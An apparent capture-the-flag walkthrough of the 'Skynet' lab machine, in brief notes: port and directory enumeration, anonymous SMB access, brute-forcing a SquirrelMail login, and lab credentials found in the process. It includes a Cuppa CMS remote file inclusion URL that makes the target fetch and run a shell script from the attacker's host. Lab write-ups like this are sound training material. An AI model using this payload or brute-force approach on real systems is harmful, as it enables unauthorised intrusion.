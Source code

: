 nmap

PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
110/tcp   open     pop3
139/tcp   open     netbios-ssn
143/tcp   open     imap
445/tcp   open     microsoft-ds
30644/tcp filtered unknown


***

http

ffuf

/admin
/config
/js
/squirrelmail --> looks interesting

```
http://10.10.139.167/squirrelmail/src/login.php

SquirrelMail version 1.4.23 [SVN]
By the SquirrelMail Project Team

```

found exploit but nedd creds.

***

smb

```
smbclient -L //$ip/                                                                                           1 ⨯
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        anonymous       Disk      Skynet Anonymous Share
        milesdyson      Disk      Miles Dyson Personal Share
        IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available


```

we can login in into anonymous share.

download some files form share.

`attention.txt  log1.txt  log2.txt  log3.txt`


attention.txt
```
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson


```

user found : miles dyson, milesdyson

log1.txt is wordlist. ---> some bruteforcinng involed.
other ifles are empt.

try to brutforce milesdyson password with above wordlist.
ssh --> not found
smb --> not found

***

milesdyson : cyborg007haloterminator

login in squiremail 

found pw for smb : `)s{A&2Z=F^n_E.B\`	

login smb as user milesdyson.

got important.txt

```
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife


```

ffuf the cms directory.
/administrator --> cuppa cms --> rfi exploit.

```
http://10.10.139.167/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.57.82/shell.php

```

get shell as www-data.

use gtfobins for privs